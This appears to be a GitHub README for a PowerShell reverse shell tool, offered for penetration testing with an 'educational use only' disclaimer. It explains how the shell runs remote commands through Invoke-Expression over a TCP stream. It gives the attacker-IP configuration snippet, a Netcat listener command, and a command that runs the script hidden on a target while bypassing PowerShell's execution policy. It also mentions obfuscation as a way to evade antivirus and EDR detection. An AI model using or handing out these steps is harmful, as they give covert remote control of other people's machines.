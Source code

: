 # Basic PowerShell Reverse Shell (Direct Stream)

This PowerShell script provides a **reverse shell** connection from a target machine back to your attacker system. It's a foundational technique in ethical hacking and penetration testing, enabling **remote command execution** on a compromised system.

---

## How It Works

This script establishes an **outbound TCP connection** from the target to your machine. Once connected, it creates an interactive shell by directly manipulating byte streams:

1.  **Reads Raw Bytes:** It reads raw bytes from the network stream, representing commands sent from your attacker machine.
2.  **Decodes & Executes:** These bytes are decoded into commands, which are then executed on the target using `Invoke-Expression` (`iex`).
3.  **Encodes & Sends Output:** The command's output (including errors) is encoded back into bytes and sent directly over the network stream to your listener.
4.  **Adds Prompt:** To make the shell experience more natural, it appends the current PowerShell path (`PS C:\Path\To\> `) to the output before sending it back.

---

## Setup & Usage

### 1. Configure the Script

Before using, you **must edit the script** to specify your attacker machine's IP address and chosen listening port:

* **`$AttackerIP`**: Your IP address (e.g., `"192.168.1.100"`)
* **`$AttackerPort`**: Your chosen listening port (e.g., `9001`)

```powershell
# --- Configuration ---
$AttackerIP = "Attacker_ip" # <== REPLACE WITH YOUR IP
$AttackerPort = 1357        # <== REPLACE WITH YOUR PORT
2. Start Your Listener (Attacker Machine)
Use Netcat (nc) to listen for the incoming connection on the port you configured:

Bash

nc -lvnp <Your_AttackerPort>
# Example: nc -lvnp 1357
3. Execute on Target (Target Machine)
Run the modified PowerShell script on the target system. The following command is commonly used to execute it silently and bypass execution policies:

PowerShell

powershell.exe -NoP -NonI -W Hidden -Exec Bypass -File C:\Path\To\your_reverse_shell.ps1
(Replace C:\Path\To\your_reverse_shell.ps1 with the actual path to your script.)

Interaction
Once the target connects, you'll gain an interactive PowerShell prompt within your Netcat listener. You can type commands like whoami, dir, or ipconfig, and their output will be displayed directly. The added PowerShell prompt will make navigating easier.

Important Considerations
Educational Use Only: This script is provided strictly for educational purposes and authorized ethical hacking engagements. Never use it on any system without explicit, written permission from the owner. Unauthorized use is illegal and unethical.
Detection: Given its functionality, this script is highly likely to be detected by antivirus (AV) and Endpoint Detection and Response (EDR) solutions. Modern security software is designed to identify and block such activities.
Stability: This is a basic reverse shell and might not be perfectly stable in all network conditions or when processing very large command outputs. More advanced shells often incorporate robust error handling and improved communication methods.
Further Development: Advanced reverse shells may include features like encryption, support for different protocols (e.g., HTTP, HTTPS), obfuscation techniques to evade detection, and better interactive shell emulation.
